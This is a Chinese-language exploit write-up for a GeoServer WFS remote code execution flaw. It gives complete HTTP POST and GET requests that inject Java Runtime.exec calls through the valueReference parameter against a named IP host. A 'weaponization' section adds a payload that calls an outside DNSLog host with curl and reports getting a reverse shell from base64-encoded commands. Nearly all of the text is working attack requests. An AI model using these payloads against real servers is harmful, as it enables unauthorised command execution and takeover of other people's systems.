

# 0x01 漏洞复现
## POST
```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```


## GET
```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```


## 结果
成功创建文件success1和success2  
  
值得注意的是，typeNames必须存在，我们可以在Web页面中找到当前服务器中的所有Types  


# 0x02 漏洞武器化
## POST
### DNSLog

需要注意ping pvip4zip.eyes.sh会报错，需要用curl pvip4zip.eyes.sh

```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 358

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'curl pvip4zip.eyes.sh')</wfs:valueReference>
</wfs:GetPropertyValue>
```
成功收到dnslog记录  
  

### 反弹Shell
直接插入反弹shell的命令会提示请求解析失败  
  

base64编码后，返回正常  
  

成功收到反弹shell  
  